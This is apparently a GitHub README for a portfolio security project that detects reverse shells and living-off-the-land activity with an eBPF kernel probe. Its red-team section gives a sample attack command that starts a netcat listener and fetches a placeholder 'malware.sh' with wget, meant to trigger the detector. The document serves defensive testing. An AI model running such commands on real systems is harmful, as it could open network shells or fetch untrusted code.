

# SecureSME - DevSecOps Enabled Evidence Management Platform


## Portfolio Evidence
### 1. eBPF Kernel-Level Threat Detection
*Privileged agent hooking `sys_execve` to detect "Living off the Land" attacks in real-time.*


### 2. Distributed Alerting System
*Asynchronous processing of heavy log files using Redis & Celery worker nodes.*

## Architecture

The platform utilizes a dual-sensor architecture: asynchronous log parsing (User Space) and real-time system call tracing (Kernel Space).



## Key Features

* **eBPF Runtime Monitoring:** A privileged Docker container running an eBPF probe that hooks into the Linux kernel to detect reverse shells, unauthorized binary execution (wget, nc), and privilege escalation attempts.

* **Distributed Event Processing:** Decoupled the ingestion layer from the analysis layer using Celery and Redis, allowing the system to process gigabytes of log data in the background.

* **Adversarial Validation:** Architecture successfully tested against simulated container-escape and living-off-the-land (LotL) attack chains.

* **Containerized Infrastructure:** Fully Dockerized microservices orchestrating the API, Worker, Database, Broker, and eBPF Agent.

* **DevSecOps Pipeline:** Integrated Bandit (SAST) and Safety into GitHub Actions.


## Tech Stack

* **Kernel Observability:** eBPF (BCC Library), C, Python
* **Core Backend:** Python 3.12, Flask, SQLAlchemy
* **Async Infrastructure:** Celery, Redis
* **Database:** PostgreSQL
* **DevOps:** Docker, Docker Compose, GitHub Actions

##  Installation & Setup

1.  **Clone the repository**
    ```bash
    git clone https://github.com/Murashidzi/SecureSME-Platform.git
    cd SecureSME-Platform
    ```

2.  **Start with Docker:** (Note: The eBPF agent requires host kernel headers and privileged execution)
    ```bash
    sudo docker-compose up -d --build
    ```
3. **Initialize Database**
    ```sudo docker exec securesme_api python init_db.py```


4.  **Access the Dashboard**
    * Frontend: `http://localhost:5173`
    * API: `http://localhost:5000`

##  Adversarial Testing (Red Teaming)
* Test the kernel probe by simulating an attacker inside an isolated container downloading a payload:
1. **Monitor the API logs:
   ```bash
    sudo docker logs -f securesme_api
    ```
2. Launch the attack from a new terminal
    ```bash
    sudo docker run --rm alpine sh -c "apk add --no-cache netcat-openbsd && nc -lvp 4444 & wget [http://example.com/malware.sh](http://example.com/malware.sh)"
    ```
3. Result: The API will immediately log a high-fidelity kernel alert detecting wget and nc execution, proving the attacker cannot hide from the kernel.

---
*Built by Murashidzi as a demonstration of DevSecOps and Software Engineering principles.*
